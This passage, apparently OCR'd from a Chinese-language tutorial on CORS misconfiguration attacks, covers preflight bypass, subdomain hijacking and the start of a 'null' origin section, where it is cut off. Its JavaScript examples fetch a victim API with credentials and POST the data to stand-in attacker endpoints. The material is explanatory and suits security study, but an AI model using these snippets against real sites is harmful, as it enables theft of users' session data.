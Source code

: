**步骤**：
1. 构造复杂的请求，如使用自定义HTTP方法或头。
2. 服务器未正确处理预检请求，允许跨域请求。
3. 攻击者通过恶意脚本窃取用户数据。

**示例代码**：
```javascript
fetch('https://vulnerable-site.com/api/data', {
  method: 'CUSTOM',
  headers: {
    'X-Custom-Header': 'value'
  },
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

### 2.3 子域名劫持

**描述**：攻击者通过控制子域名，利用父域名的CORS配置错误，窃取用户数据。

**步骤**：
1. 控制子域名（如`sub.vulnerable-site.com`）。
2. 父域名配置`Access-Control-Allow-Origin`为`*.vulnerable-site.com`。
3. 攻击者通过子域名发起跨域请求，窃取用户数据。

**示例代码**：
```html
<script>
  fetch('https://vulnerable-site.com/api/data', {
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('https://sub.vulnerable-site.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
```

## 3. 高级利用技巧

### 3.1 利用`null`源

**描述**：某些浏览器允许`null`作为`Access-Control-Allow-Origin`的值，攻击者可以利用这一点发起跨域请求。
